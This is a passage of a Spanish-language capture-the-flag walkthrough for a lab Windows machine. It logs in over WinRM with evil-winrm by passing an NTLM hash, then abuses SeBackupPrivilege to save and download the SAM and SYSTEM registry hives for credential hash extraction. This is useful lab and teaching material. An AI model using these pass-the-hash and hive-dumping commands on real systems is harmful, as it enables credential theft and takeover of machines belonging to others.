 ### Abusing WinRM

Ya sabemos que el usuario "svc\_backup" forma parte del grupo "Remote Management Users" debido que lo habíamos enumerado antes con **ldapdomaindump**, accederemos al WinRM a través de **evil-winrm**.

Verificamos la flag de **user.txt**.

```bash
evil-winrm -i 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```

<figure><img src="../../../.gitbook/assets/1756_vmware_3HFMO2Vrfu.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SeBackupPrivilege Exploitation

Revisando los permisos del usuario "svc\_backup" comprobamos que dispone del privilegio de **SeBackupPrivilege**. Por lo cual perfectamente nos podríamos dumpear la SAM para obtener los hashes del usuario Administrator (local).

```powershell
whoami /priv
```

<figure><img src="../../../.gitbook/assets/1736_vmware_gIu0IUNheH (1).png" alt="" width="479"><figcaption></figcaption></figure>

Extraeremos la SAM y SYSTEM y nos la descargaremos en nuestra Kali.

```powershell
reg save hklm\sam C:\Windows\Temp\test\SAM

reg save hklm\system C:\Windows\Temp\test\SYSTEM

download SAM

download SYSTEM
```
